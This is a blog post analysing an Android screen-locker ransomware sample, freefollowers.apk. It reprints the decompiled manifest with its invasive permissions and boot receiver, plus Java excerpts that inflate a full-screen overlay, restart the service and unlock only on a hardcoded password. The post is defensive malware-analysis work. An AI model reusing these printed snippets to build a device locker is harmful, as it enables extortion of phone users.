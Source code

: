 ```yaml
---
layout: post
title: Android Malware Analysis Series - freefollwers.apk
---
```


**File Information:** [https://twitter.com/malwrhunterteam/status/1534958788096233472?s=20&t=OAEC5DdvJDvRp6SRsaaUaw](https://twitter.com/malwrhunterteam/status/1534958788096233472?s=20&t=OAEC5DdvJDvRp6SRsaaUaw)

**Sample Source:** [https://bazaar.abuse.ch/sample/5251a356421340a45c8dc6d431ef8a8cbca4078a0305a87f4fbd552e9fc0793e/#intel](https://bazaar.abuse.ch/sample/5251a356421340a45c8dc6d431ef8a8cbca4078a0305a87f4fbd552e9fc0793e/#intel)

**SHA256 Hash:** 
5251a356421340a45c8dc6d431ef8a8cbca4078a0305a87f4fbd552e9fc0793e

## Introduction

The freefollowers.apk appears to targeting people who use social media and are looking to up the amount of followers for their social media accounts. Specifically targeting users of android. I am not entirely sure the delivery method this malware uses, but I found this sample APK via a Google search using the SHA256 hash. It appears that this piece of android malware was posted by Malware Hunters twitter on June 9th of 2022. Though I have found a variant on Virus Total [here](https://www.virustotal.com/gui/file/73fae61d9550186c9b68c0e3a0589f1faaa87f6a9dc8290f98aaf55db3a58350/detection). In the URL it identifies the malware as Android Locker. 

![Untitled](assets/androidMalwarept101.png)

This malware “*screenlocks*” the device by creating an overlay to instruct the user to send money to the address provided in the screenshot. Once the user does so the user can unlock the device with a password provided by the malware authors. 

# Decompilation and Analysis

Usually I would start a security audit of an Android APK with first doing a bit of automated analysis along with some manual code review of the underlying APK structure. Gaining first an idea of what permissions, activities, and classes are being called in the manifest file. Then moving on from there.

I deployed an Android emulated device specific to this test in Android Studio. The manifest file explicitly calls out Android API 23 Marshmallow. I install the malware via adb then did a reboot of the emulated device to get the screenshot below.

![Untitled](assets/androidMalwarept102.png)

As you can tell the actors of this malware go by an anonymous group XPhantom. 

![Untitled](assets/androidMalwarept103.png)

## Manifest.xml file

Digging into the freefollowers.apk I observed one activity, one service, and one receiver  in the Manifest.xml file. We can also see multiple permissions such as external_storage, read_contacts, read_sms and receive_boot_completed.

```jsx
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" android:versionCode="1" android:versionName="1.0" android:installLocation="internalOnly" android:compileSdkVersion="23" android:compileSdkVersionCodename="6.0-2438415" package="com.XPhantom.id" platformBuildVersionCode="23" platformBuildVersionName="6.0-2438415">
    <uses-sdk android:minSdkVersion="8" android:targetSdkVersion="21"/>
    <uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW"/>
    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
    <uses-permission android:name="android.permission.SET_WALLPAPER"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_CONTACTS"/>
    <uses-permission android:name="android.permission.READ_SMS"/>
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
    <uses-permission android:name="android.permission.WAKE_LOCK"/>
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.REQUEST_INSTALL_PACKAGE"/>
    <uses-permission android:name="android.permission.CAMERA"/>
    <application android:theme="@style/AppTheme" android:label="@string/app_name" android:icon="@drawable/ic_launcher" android:debuggable="true">
        <activity android:label="@string/app_name" android:name="com.XPhantom.p000id.MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.INFO"/>
            </intent-filter>
        </activity>
        <service android:name="com.XPhantom.p000id.MyService" android:enabled="true"/>
        <receiver android:name="com.XPhantom.p000id.BootReceiver" android:permission="android.permission.RECEIVE_BOOT_COMPLETED" android:enabled="true">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED"/>
                <action android:name="android.intent.action.QUICKBOOT_POWERON"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
        </receiver>
    </application>
</manifest>
```

## MainActivity

In the MainActivity java code below we can see that the malware starts the service ***********MyService.*********** 

```java
package com.XPhantom.p000id;

import adrt.ADRTLogCatReader;
import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;

/* renamed from: com.XPhantom.id.MainActivity */
/* loaded from: classes.dex */
public class MainActivity extends Activity {
    @Override // android.app.Activity
    public void onCreate(Bundle bundle) {
        ADRTLogCatReader.onContext(this, "com.aide.ui");
        super.onCreate(bundle);
        try {
            startService(new Intent(this, Class.forName("com.XPhantom.id.MyService")));
            finish();
        } catch (ClassNotFoundException e) {
            throw new NoClassDefFoundError(e.getMessage());
        }
    }
}
```

## MyService Activity

After overviewing the classes baked into this piece of malware *MyService* appears to be the main functionality being called from *MainActivity*. 

On line 23 of the MyService class there is a reference to `LayoutInflater` this is used in this malware sample to overlay a View onto the device. Disabling the user from using their phone and even with a restart will continue the LayoutInflater view.

```java
public class MyService extends Service {
    ImageView chatHead;
    Context context;

    /* renamed from: e1 */
    EditText f0e1;
    ViewGroup myView;
    WindowManager windowManager;

    @Override // android.app.Service
    public void onCreate() {
        ADRTLogCatReader.onContext(this, "com.aide.ui");
        this.windowManager = (WindowManager) getSystemService("window");
        this.myView = (ViewGroup) ((LayoutInflater) getSystemService("layout_inflater")).inflate(C0000R.layout.main, (ViewGroup) null);
        this.chatHead = new ImageView(this);
        this.chatHead.setImageResource(C0000R.drawable.ic_launcher);
        this.f0e1 = (EditText) this.myView.findViewById(C0000R.C0001id.mainEditText1);
        ((Button) this.myView.findViewById(C0000R.C0001id.mainButton1)).setOnClickListener(new View.OnClickListener(this) { // from class: com.XPhantom.id.MyService.100000000
            private final MyService this$0;
```

[https://developer.android.com/reference/android/view/LayoutInflater](https://developer.android.com/reference/android/view/LayoutInflater)

Secondly, the link above to the developer reference makes note of an XML file. Which appears to loading the View defined by either the developer or in our case the malware author. If we take a look at the strings.xml file we can observe the same resources being applied to the LayoutInflater View via the C000R class.

![Untitled](assets/androidMalwarept104.png)

![Untitled](assets/androidMalwarept105.png)

Thirdly, we can see in the following java code snippet that the malware has a hardcoded string. The hardcoded string allows for the LayoutInflater that overlays on the device to be “removed”. Once this string has been submitted into the getText field which appears to be the password the malware stops the overlay and the user can begin using the device again. 

```java
            @Override // android.view.View.OnClickListener
            public void onClick(View view) {
                if (this.this$0.f0e1.getText().toString().equals("Abdullah@")) {
                    this.this$0.windowManager.removeView(this.this$0.myView);
                    try {
                        this.this$0.context.startService(new Intent(this.this$0.context, Class.forName("com.XPhantom.id.MyService")));
                        return;
                    } catch (ClassNotFoundException e) {
                        throw new NoClassDefFoundError(e.getMessage());
                    }
                }
```

Thanks for reading, and look out for future posts analyzing malware samples in 2023.
